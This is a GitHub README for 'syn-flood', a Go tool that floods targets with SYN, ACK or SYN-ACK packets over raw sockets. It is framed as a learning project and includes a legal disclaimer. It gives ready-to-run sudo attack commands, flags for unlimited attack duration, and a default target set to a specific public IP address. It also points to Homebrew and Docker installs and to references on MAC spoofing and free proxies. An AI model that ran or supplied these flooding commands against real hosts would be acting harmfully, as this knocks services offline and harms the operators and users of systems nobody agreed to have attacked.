 # Syn Flood

[![CI](https://github.com/joshsagredo/syn-flood/workflows/CI/badge.svg?event=push)](https://github.com/joshsagredo/syn-flood/actions?query=workflow%3ACI)
[![Docker pulls](https://img.shields.io/docker/pulls/joshsagredo/syn-flood)](https://hub.docker.com/r/joshsagredo/syn-flood/)
[![Go Report Card](https://goreportcard.com/badge/github.com/joshsagredo/syn-flood)](https://goreportcard.com/report/github.com/joshsagredo/syn-flood)
[![Quality Gate Status](https://sonarcloud.io/api/project_badges/measure?project=joshsagredo_syn-flood&metric=alert_status)](https://sonarcloud.io/summary/new_code?id=joshsagredo_syn-flood)
[![Reliability Rating](https://sonarcloud.io/api/project_badges/measure?project=joshsagredo_syn-flood&metric=reliability_rating)](https://sonarcloud.io/summary/new_code?id=joshsagredo_syn-flood)
[![Maintainability Rating](https://sonarcloud.io/api/project_badges/measure?project=joshsagredo_syn-flood&metric=sqale_rating)](https://sonarcloud.io/summary/new_code?id=joshsagredo_syn-flood)
[![Security Rating](https://sonarcloud.io/api/project_badges/measure?project=joshsagredo_syn-flood&metric=security_rating)](https://sonarcloud.io/summary/new_code?id=joshsagredo_syn-flood)
[![Coverage](https://sonarcloud.io/api/project_badges/measure?project=joshsagredo_syn-flood&metric=coverage)](https://sonarcloud.io/summary/new_code?id=joshsagredo_syn-flood)
[![Release](https://img.shields.io/github/release/joshsagredo/syn-flood.svg)](https://github.com/joshsagredo/syn-flood/releases/latest)
[![Go version](https://img.shields.io/github/go-mod/go-version/joshsagredo/syn-flood)](https://github.com/joshsagredo/syn-flood)
[![License](https://img.shields.io/badge/License-Apache%202.0-blue.svg)](https://opensource.org/licenses/Apache-2.0)

This project is developed with the objective of learning low level network operations with Golang. It starts a syn flood attack
with raw sockets.

## Legal Disclaimer
This tool is created for the sole purpose of security awareness and education, it should not be used against systems
that you do not have permission to test/attack. The author is not responsible for misuse or for any damage that you
may cause. You agree that you use this software at your own risk.

## Prerequisites
You need root access to run syn-flood

syn-flood needs lots of open file descriptors while running so we need to increase it first. You can increase it like below
temporarily.

```shell
$ sudo ulimit -S -n 2048000
$ sudo syn-flood --host foo.example.com --port 443 --floodType syn
```

If you still get **"too many open files"** error, try increasing the value that passed to first command.

## Configuration
syn-flood can be customized with several command line arguments:
```
Usage:
  syn-flood [flags]

Flags:
      --floodDurationSeconds int   Provide the duration of the attack in seconds, -1 for no limit, defaults to -1 (default -1)
      --floodType string           Provide the attack type. Proper values are: syn, ack, synack (default "syn")
  -h, --help                       help for syn-flood
      --host string                Provide public ip or DNS of the target (default "213.238.175.187")
      --payloadLength int          Provide payload length in bytes for each SYN packet (default 1400)
      --port int                   Provide reachable port of the target (default 443)
  -v, --verbose                    verbose output of the logging library (default false)
      --version                    version for syn-flood
```

> To be able to run **syn-flood** with unlimited time range, you should also increase your operating system open file
> limits, you can refer [here](https://www.tecmint.com/increase-set-open-file-limits-in-linux/) about how to do that.

## Download
### Binary
Binary can be downloaded from [Releases](https://github.com/joshsagredo/syn-flood/releases) page.

After then, you can simply run binary by providing required command line arguments:
```shell
$ sudo ./syn-flood --host 10.0.0.100 --port 443
```

Or with DNS:
```shell
$ sudo ./syn-flood --host foo.example.com --port 443
```

### Homebrew
This project can be installed with [Homebrew](https://brew.sh/):
```shell
$ brew tap joshsagredo/tap
$ brew install joshsagredo/tap/syn-flood
$ sudo syn-flood --host foo.example.com --port 443 --floodType syn
```

### Docker
Docker image can be downloaded with below command:
```shell
$ docker run joshsagredo/syn-flood:latest
```

## Development
This project requires below tools while developing:
- [Golang 1.20](https://golang.org/doc/go1.20)
- [pre-commit](https://pre-commit.com/)
- [golangci-lint](https://golangci-lint.run/usage/install/) - required by [pre-commit](https://pre-commit.com/)
- [gocyclo](https://github.com/fzipp/gocyclo) - required by [pre-commit](https://pre-commit.com/)

After you installed [pre-commit](https://pre-commit.com/), simply run below command to prepare your development environment:
```shell
$ pre-commit install -c build/ci/.pre-commit-config.yaml
```

## References
- https://www.devdungeon.com/content/packet-capture-injection-and-analysis-gopacket
- https://www.programmersought.com/article/74831586115/
- https://github.com/rootVIII/gosynflood
- https://golangexample.com/repeatedly-send-crafted-tcp-syn-packets-with-raw-sockets/
- https://github.com/kdar/gorawtcpsyn/blob/master/main.go
- https://pkg.go.dev/github.com/google/gopacket
- https://github.com/david415/HoneyBadger/blob/021246788e58cedf88dee75ac5dbf7ae60e12514/packetSendTest.go
- mac spoofing -> https://github.com/google/gopacket/issues/153
- free proxies -> https://www.sslproxies.org/
- [What is an ACK flood DDoS attack? | Types of DDoS attacks](https://www.cloudflare.com/tr-tr/learning/ddos/what-is-an-ack-flood/)
- https://bariskoparmal.com/2021/08/22/spesifik-ddos-saldirilari-ve-saldiri-komutlari/
- https://github.blog/2016-07-12-syn-flood-mitigation-with-synsanity/

## License
Apache License 2.0

